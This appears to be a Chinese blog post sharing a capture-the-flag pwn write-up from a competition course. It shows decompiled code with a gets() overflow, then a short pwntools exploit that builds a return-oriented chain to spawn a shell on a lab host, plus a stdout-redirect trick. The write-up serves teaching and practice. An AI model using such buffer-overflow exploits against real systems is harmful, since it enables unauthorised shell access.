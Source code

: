 ```yaml
---
title: "竞赛课结课分享"
description: "AK了比赛分享经验！"
pubDate: "May 22 2023"
published: true
heroImage: "../../assets/2.png"
tags: ["技术"]
---
```

# 第一题：shut
## 分析代码
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
    __int64 v4; // [rsp+8h] [rbp-8h] BYREF

    v4 = 0LL;
    puts(" *------Ab1azE easy pwn------* \n");
    puts("enjoy yourself in the course of the hacking :)");
    gets(&v4, argv);
    close(1);
    return 0;
}
```
这里发现也存在system函数
```c
__int64 __fastcall func(const char *a1)  //如果这里是/bin/sh就好了啊
{
  system(a1);
  return 0LL;
}
```
然后尼，我们还发现里面存在/bin/sh<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1684423094135-acbe3233-744c-4e42-92b5-40d9eebf9e8c.png#averageHue=%23363533&clientId=ueaff3f70-7084-4&from=paste&height=444&id=ud9213d5c&originHeight=733&originWidth=1444&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=174340&status=done&style=none&taskId=u726c8199-005d-4178-a4ca-d5c0c6858b3&title=&width=875.1514645691227)
## 来看exp
```c
from pwn import *
p = remote("172.22.107.127",49221)
offset =0x10
payload = b'A' * offset + p64(0x400803) + p64(0x601050) +  p64(0x40073F)
p.sendline(payload)
p.interactive()
```
## 坑点所在
关闭了标准输出1<br />那么我们可以重新定位（标准输入0，标准错误输出2）<br />exec 1>&2
# 第四题：twine
![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1684423459606-7e109e04-841f-443f-87d4-316aea66ad04.png#averageHue=%23312d2b&clientId=uc480b705-b444-4&from=paste&height=191&id=u352f8326&originHeight=315&originWidth=1053&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=68891&status=done&style=none&taskId=u1654fe99-64ef-408e-b39a-486917499eb&title=&width=638.1817812959046)
> 关注重点：没有PIE
